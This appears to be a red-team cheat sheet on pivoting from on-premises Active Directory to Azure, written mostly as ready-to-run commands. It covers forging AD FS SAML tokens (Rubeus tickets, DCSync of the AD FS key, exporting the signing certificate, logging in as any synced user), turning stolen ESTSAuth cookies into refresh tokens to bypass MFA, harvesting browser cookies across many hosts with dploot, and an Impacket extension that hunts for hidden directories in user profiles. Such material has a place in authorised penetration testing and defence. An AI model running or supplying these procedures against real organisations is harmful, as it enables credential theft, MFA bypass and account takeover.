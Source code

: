 # On-Prem → Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Forging AD FS SAML Tokens

- [https://aadinternals.com/post/adfs/](https://aadinternals.com/post/adfs/)

Check if Azure is configured as a party trust:

```
ADFS > Get-ADFSRelyingPartyTrust | select Identifier | fl
```

Get AD FS config:

```
AADInt > $ADFSConfig = Export-AADIntADFSConfiguration -Hash <ADFS_SVC_NT_HASH> -SID <ADFS_SVC_SID> -Server ADFS01.megacorp.local
```

Get private key object GUID:

```
PV3 > Get-DomainObject -LDAPFilter "(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))" -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=megacorp,DC=local" | select objectGuid
```

Ensure you have enough privileges to DCSync:

```
Cmd > Rubeus.exe asktgt /user:DC01$ /domain:megacorp.local /dc:DC01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /domain:megacorp.local /dc:DC01.megacorp.local /service:LDAP/DC01.megacorp.local /nowrap /ptt
```

DCSync the key:

{% hint style="info" %}
We don't actually need clear-text creds to replicate the key if we've already imported a privileged TGT, so `$Credentials` ([here](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/DRS_Utils.ps1#L242)) can be omitted.
{% endhint %}

```
AADInt > $ADFSKey = Export-AADIntADFSEncryptionKey -Server DC01.megacorp.local -ObjectGuid <GUID> -Credentials "dummy"
PS > [System.BitConverter]::ToString($ADFSKey)
```

Generate the token signing certificate:

```
AADInt > Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $ADFSKey
PS > ls ADFS_*
```

Get AD FS trust issuer as well as on-prem users' immutable cloud IDs:

```
ADFS > $Issuer = (Get-ADFSProperties).Identifier.OriginalString
PV3 > Get-DomainUser | select UserPrincipalname, @{Name="ImmutableId"; Expression={"$([Convert]::ToBase64String(([guid]$_.ObjectGuid).ToByteArray()))"}}
```

Impersonate and login:

```
AADInt > Open-AADIntOffice365Portal -ImmutableId <BASE64_ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer
```




## Pass-the-Cookie

- [https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/](https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/)



### Refresh Token from `ESTSAuth*` Cookies

Automated with [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2?tab=readme-ov-file#get-a-refresh-token-from-estsauth-cookie):

```
PS > Get-AzureTokenFromESTSCookie -ESTSAuthCookie <COOKIE_VALUE>
```



### Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot) and decrypt with a backup key (similar to [HEKATOMB](https://github.com/ProcessusT/HEKATOMB)):

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache "$comp.megacorp.local" -pvk ../key.pvk -show-cookies > "browsers_$comp.out"; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```




## Mass Hidden Directories Searching

Impacket's **smbclient.py** extension (searches for hidden directories in every user's home):

```python
def do_hidden(self, args=None):
    hidden = []
    for item1 in self.smb.listPath(self.share, '\\Users\\*'):
        longname1 = item1.get_longname()
        if item1.is_directory() and longname1 not in ('.', '..'):
            dir0 = ntpath.join('\\Users', longname1)
            try:
                ls = self.smb.listPath(self.share, ntpath.join(dir0, '*'))
            except:
                continue
            else:
                for item2 in ls:
                    longname2 = item2.get_longname()
                    if item2.is_directory() and longname2 not in ('.', '..') and longname2.startswith('.'):
                        hidden.append((item2, ntpath.join(dir0, longname2)))
    result = ''
    for item, name in hidden:
        result += 'drw-rw-rw- '
        result += f'{datetime.fromtimestamp(item.get_mtime_epoch()).strftime("%Y/%m/%d %H:%M:%S"):>21} '
        result += '  '
        result += name
        result += '\n'
    print(result.strip())
```

Collect hidden directories:

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ echo 'use c$\ninfo\nhidden' > cmd
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 smbclient.py -k -no-pass "$comp.megacorp.local" -inputfile cmd -outputfile "hidden_$comp.out"; done
```

Search for hidden directories that start with `.az`:

```
$ grep -nr --include '*.out' '\Users' | grep -i '\.az'
```
